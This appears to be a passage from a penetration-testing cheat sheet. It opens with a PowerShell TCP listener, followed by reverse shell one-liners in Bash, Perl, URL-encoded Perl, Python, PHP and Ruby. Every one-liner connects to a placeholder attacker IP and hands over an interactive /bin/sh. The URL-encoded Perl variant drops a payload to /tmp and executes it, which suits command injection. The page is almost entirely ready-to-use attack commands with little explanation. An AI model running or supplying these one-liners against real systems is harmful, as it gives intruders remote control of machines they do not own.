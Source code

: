 ### Listen on a port (PowerShell)
```bash
# Start listener on port 443
$listener = [System.Net.Sockets.TcpListener]443; $listener.Start();
 
while($true)
{
    $client = $listener.AcceptTcpClient();
    Write-Host $client.client.RemoteEndPoint "connected!";
    $client.Close();
    start-sleep -seconds 1;
}
```

## Gaining Access
### Reverse Shell One-Liners
#### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Perl
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### URL-Encoded Perl: Linux
```bash
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

